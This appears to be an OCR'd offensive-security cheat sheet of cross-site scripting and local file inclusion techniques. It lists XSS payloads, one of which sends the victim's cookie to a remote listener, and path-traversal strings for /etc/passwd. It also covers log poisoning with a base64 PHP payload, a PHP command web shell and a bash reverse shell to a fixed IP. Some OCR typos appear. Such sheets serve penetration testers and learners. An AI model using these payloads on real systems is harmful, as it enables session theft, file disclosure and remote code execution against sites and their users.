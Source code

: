 ------------------------------------------------------------------cross site scripting-----------------------------------------------------------------------
-     <ScRipT>alert("XSS");</ScRipT>
-     <scr<script>ipt>alert(1)</script>
-     <svg/onload=alert(1)>
-     <a href=javascript:confirm()>click here
-     <img src=`xx:xx`onerror=alert(1)>
-     <img src=//x55.is OnError=import(src)>
-     </script><script >alert(document.cookie)</script>
-     <script>new  Image().src="http://10.0.2.10:4444/bogus.php?output="+escape(document.cookie);</script>

To automate the process, use the following tools
-	xsstrike
-	xsshunter
-	BeEF
-	JShell

-----------------------------------------------------------------Loca File Inclusion-------------------------------------------------------------------------
- Null Byte will ignore the extension
-     ../../../../../../etc/passwd%00.jpg  --> 
-     php://filter/convert.base64-encode/resource=
- poising a log file
- /roc/self/environ || /var/log/auth.log [ssh log file] || /var/log/apache2/access.log [web server log file]
- poison the auth.log file
-     Ssh “<?php passthru(base64_decode(‘base64PAYLOAD==’))?>”@10.0.2.13
- execute a php file from an external server
-     ./ngrok http 9000  && python -m SimpleHTTPServer
-     <?php system("ls /"); ?>
-     <?php system($_GET['cmd']); ?>
-     example.com/index.php?view=cat../../../../../../../../../var/log/apache2/access.log
-     bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
-     ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -fs 15349 --> searching for LFI
- decode (base64) the PHPSESSID --> you will find a path for /var/www/html/index.php --> you can change the path inside the cookie, encode it again then send it 
- Linux --> /etc/hosts
     - example.com/index.php?id=1
- windows --> IIS 
     - example.com/index.aspx?id=1

